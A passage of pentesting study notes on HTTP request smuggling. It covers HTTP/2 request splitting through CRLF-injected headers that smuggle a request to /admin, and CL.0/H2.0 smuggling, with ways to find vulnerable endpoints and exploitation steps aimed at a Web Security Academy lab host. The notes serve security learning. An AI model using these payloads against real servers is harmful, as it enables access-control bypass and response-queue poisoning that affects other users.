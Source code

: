 ## <mark style="color:yellow;">HTTP/2 request splitting</mark>

This approach is more versatile, allowing even GET requests without relying on methods that support a body.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                \r\n
                GET /admin HTTP/1.1\r\n
                Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header after existing ones. With HTTP/2, this places it after the `foo` header, leaving the first request without a `Host` header and the smuggled one with two. Inject your `Host` header so that it ends up in the first request once.

```
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                Host: vulnerable-website.com\r\n
                \r\n
                GET /admin HTTP/1.1
```

{% hint style="info" %}
**Note**: here the request triggerg response queue poisoning, but you can also smuggle prefixes for classic request smuggling.
{% endhint %}

## <mark style="color:yellow;">CL.0/H2.0 request smuggling</mark>

Some servers ignore the `Content-Length` header, treating requests as ending at the headers, effectively making `Content-Length 0`. If the back-end behaves this way while the front-end uses Content-Length, this discrepancy enables HTTP request smuggling, termed a "CL.0" vulnerability.

**Find an endpoint that ignores Content-Length**

* POST request to a static file
* POST request to server level redirect (`Location` header in the response)
* POST request that triggers a server side error

**Exploitation**

1. Create one tab containing the setup request and another containing an arbitrary follow-up request.
2. Add the two tabs to a group in the correct order.
3. Change the Connection header to `keep-alive`.
4. Send group in sequence (single connection)

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /404 HTTP/1.1
Foo: x
```



